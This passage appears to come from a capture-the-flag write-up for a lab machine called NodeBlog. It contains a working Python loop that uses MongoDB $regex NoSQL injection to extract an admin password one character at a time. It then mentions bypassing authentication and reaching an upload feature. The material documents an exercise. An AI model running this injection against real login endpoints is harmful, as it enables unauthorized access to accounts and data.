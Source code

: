 ```
    if "Invalid Password" not in response.text:
        status = False
        sys.stdout.write(f"\rPassword: {password}")
        sys.stdout.flush()
        break

    else:
        for each in string.ascii_letters:
            data = {
                "user": "admin",
                "password": {"$regex": f"^{password}{each}" }
            }

            response = requests.post(url, headers=headers, json=data)

            if "Invalid Password" not in response.text:
                password += each
                sys.stdout.write(f"\rPassword: {password}{each}")
                sys.stdout.flush()
                break
                    
            sys.stdout.write(f"\rPassword: {password}{each}")
            sys.stdout.flush()
```

We have extracted the password using the above script:

![Untitled 11.png](NodeBlog/assets/Untitled%2011.png)

Now, we can login to this application either by using the password that we extracted or by bypassing the authentication.

  

After logging in to the application, we can see a upload button.

![Untitled 12.png](NodeBlog/assets/Untitled%2012.png)
